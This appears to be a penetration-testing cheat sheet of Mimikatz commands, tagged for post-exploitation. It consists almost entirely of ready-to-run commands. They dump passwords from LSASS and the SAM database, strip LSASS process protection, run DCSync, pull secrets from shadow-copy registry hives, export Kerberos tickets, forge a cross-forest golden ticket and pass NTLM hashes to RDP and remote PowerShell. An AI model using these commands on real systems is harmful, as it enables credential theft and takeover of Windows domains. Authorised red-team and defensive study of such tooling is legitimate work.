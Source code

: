 # mimikatz

% mimikatz, passwords

## Mimikatz - Online Credential Extraction
Extracts credentials from memory (LSASS) and SAM database.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## PowerShell - Load Mimikatz (from local file)
```powershell
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz
```

## Mimikatz - Disable LSA Protection (PPL) and Dump Passwords
This command attempts to disable LSA Protection (PPL) and then dump credentials from LSASS.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "privilege::debug" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
```

## Mimikatz - DCSync (Domain Controller Synchronization)
Performs a DCSync attack to extract password hashes for a specified user.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## Mimikatz - Extract Credentials from LSASS Dump
Extracts credentials from a previously captured LSASS process dump.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump <path_to_lsass.dmp>" "sekurlsa::logonPasswords" "exit"
```

## Mimikatz - Extract Credentials from Shadow Copy (SAM/SYSTEM/SECURITY)
Extracts SAM, SYSTEM, and SECURITY hives from a shadow copy for offline credential extraction.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" "exit"
```

## Mimikatz - Extract LSA Secrets from Shadow Copy
Extracts LSA secrets from a shadow copy.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" "exit"
```


## Extract SAM, SECURITY, and SYSTEM hives from Shadow Copy
Copies the SAM, SECURITY, and SYSTEM registry hives from a shadow copy to the desktop.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.hiv');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.hiv');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.hiv')"
```

% mimikatz, ad

## Mimikatz - Extract Kerberos Tickets
Extracts Kerberos tickets from memory.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurlsa::tickets /export
```

## Mimikatz - Golden Ticket (Forest Extra SID)
Creates a golden ticket with an extra SID for forest trust exploitation.
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID
	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth
## Mimikatz - Pass-the-Hash (PtH) to RDP
Uses Pass-the-Hash to authenticate to a remote desktop session.
#plateform/windows  #target/local  #cat/PIVOT 
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

## Mimikatz - Pass-the-Hash (PtH) to run PowerShell remotely
Uses Pass-the-Hash to launch a remote PowerShell session.
#plateform/windows  #target/local  #cat/PIVOT 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```